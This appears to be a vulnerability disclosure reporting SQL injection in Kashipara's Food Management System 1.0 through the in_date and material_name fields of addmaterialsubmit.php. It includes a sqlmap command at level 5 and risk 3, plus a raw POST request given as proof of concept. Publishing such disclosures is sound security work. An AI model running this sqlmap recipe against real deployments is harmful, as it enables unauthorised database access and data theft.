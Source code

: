 Food Management System SQL Injection Vulnerability 
 Vulnerability Description: SQL Injection Vulnerability in Foreground of Food Management System 
 Manufacturer Information: www.kashipara.com/ 
 Affected Version: 1.0 
 Environment: 
 https://www.kashipara.com/project/download/project2/user/2023/202312/kashipara.com_chopstic1-zip.zip 
![img](https://cdn-images-1.medium.com/max/900/1*OVHZZxD7vpNXrFgeB8IeJw.png)

 Code Analysis: 
 Code in D:\phpstudy_pro\WWW\chopstic1\addmaterialsubmit.php 

![img](https://cdn-images-1.medium.com/max/900/1*EVSkNu0CDzCObG-IOR2DAQ.png)****

 The $_POST <$'in_date'] and $_POST <$' material_name'] parameters are used directly in the SQL insert statement $qry without proper escaping. 

 SQLmap： 

![img](https://cdn-images-1.medium.com/max/900/1*JFuSODLVWyRV6ZpTGll8HA.png)

SQLMAP：
python sqlmap.py -r 1.txt -p material_name --level 5 --risk 3

POC

```shell
POST /chopstic1/addmaterialsubmit.php HTTP/1.1
Host: localhost
Content-Length: 50
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/chopstic1/addmaterial.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=aa141d36; mailpoet_page_view=%7B%22timestamp%22%3A1694409700%7D; mailpoet_subscriber=%7B%22subscriber_id%22%3A2%7D; _ga=GA1.1.324136046.1702458922; Hm_lvt_6a3c7d9bb52a48ffadde32007d2a259e=1702459185; _pk_id.1.1fff=4343a030b8a53617.1702459185.; PHPSESSID=l7gqshcet6f2d84e2r3ae4a5tj
Connection: close

in_date=04-01-2024&material_name=asdqq&submit=Save

```

s